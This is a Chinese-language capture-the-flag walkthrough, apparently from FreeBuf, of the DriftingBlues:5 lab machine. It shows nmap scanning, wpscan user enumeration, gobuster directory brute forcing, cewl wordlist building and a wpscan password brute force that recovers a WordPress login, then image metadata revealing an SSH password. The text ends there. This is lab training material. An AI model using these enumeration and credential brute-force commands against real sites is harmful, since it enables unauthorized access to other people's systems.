 

# driftingbules:5 靶场解析及复现 - FreeBuf 网络安全行业门户

**kali 的 IP 地址：192.168.200.14**

**靶机 IP 地址：192.168.200.60**

# 一、信息收集

## 1\. 对利用 nmap 目标靶机进行扫描

由于 arp-scan 属于轻量级扫描，在此直接使用 nmap 进行对目标靶机扫描开放端口

```bash
nmap -A -p 1-65535 192.168.200.60
```

使用 nmap 扫描 开放的端口是 22（ssh）、80（http）端口

![1703208594_6584e692544d0a6888142.png!small?1703208596053](assets/1710207215-8b2d15585e1a18706e079b5637308b14.png)

## 2\. 访问网站

发现框架是 wordpress 框架，或者也可以使用 wappalyzer、whatweb

![1703208602_6584e69a085375b16849d.png!small?1703208604047](assets/1710207215-28c9da1c775a03626fbb7e771f24bf43.png)

既然是 wordpress 系统，那么后台登录页面就是 wp-login.php

![1703208610_6584e6a2cb4bea26b2e46.png!small?1703208612125](assets/1710207215-c4621ec4b94007c956bf22404b340882.png)

# 二、漏洞探测

## 3.wpsan 爆用户名

使用专门扫描 wordpress 得 wpsan

使用 wpscan 扫描下账户信息，发现 gadd、gill、collins、satanic、abuzerkomurcu 账户。

```bash
wpscan --url "http://192.168.200.60/" -e u #对目标网页进行扫描
```

![1703208621_6584e6ad2711aad5ac80a.png!small?1703208623267](assets/1710207215-943eae1a2afcccd217cf4948bb4f88f6.png)

此时，已经拥有了**用户名**将之保存到 username.txt 下，在寻找登陆密码

```bash
gobuster dir -u http://192.168.200.60  -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt  -x php,jpg,txt,html
```

![1703208631_6584e6b7a6b7f5676f055.png!small?1703208633216](assets/1710207215-14238c7642b3d669cfd5316582ea6fc4.png)

![1703208639_6584e6bfccfc52843f188.png!small?1703208641077](assets/1710207215-55b0d4f8748855f79a7557ed98802aba.png)

对网站进行扫描之后，没有发现密码本类似得信息

## 4\. 用 cewl 爬取网站密码：

```bash
cewl -m 6 -w passwd.txt http://192.168.200.60 # 爬取网页信息，保存到 passwd.txt 中
```

![1703208647_6584e6c742cde62233177.png!small?1703208648613](assets/1710207215-e74db637466562c5dfaa25a7a470c71c.png)

## 5.wpscan 爆破后台登录账户密码

对刚才发现的几个账户进行密码爆破，

```bash
wpscan --url http://192.168.200.60 -U username.txt -P passwd.txt
```

![1703208655_6584e6cf8388008fc2f96.png!small?1703208657081](assets/1710207215-7d9b49f9d417fd651005880c68ac1df4.png)

有一组符合条件

```bash
账户名：gill
密码:interchangeable
```

成功进入后台

![1703208662_6584e6d699f4e8de27b47.png!small?1703208664110](assets/1710207215-2f622c1fa0c921dc6a8484c028935141.png)

这个图片在 index.php 页面没有显示被隐藏，那么首先进行图片隐写的研究

![1703208673_6584e6e14930396a443ba.png!small?1703208675186](assets/1710207215-61320e0da96ad44e37c6f8a121c1e04b.png)

右键复制链接下载到 kali 当中。

```bash
wget 192.168.200.60/wp-content/uploads/2021/02/dblogo.png # 下载
```

## 6\. 识别图片隐藏信息

> Exiftool dblogo.png  
> 这个工具可以识别出一些我们在一般情况下无法识别的图片中的信息

  

**有 ssh 的密码，用户名用之前的那五个用户名试试**

![](assets/1710207215-eb823ce8f49bc8ca60ba59385c7d314a)

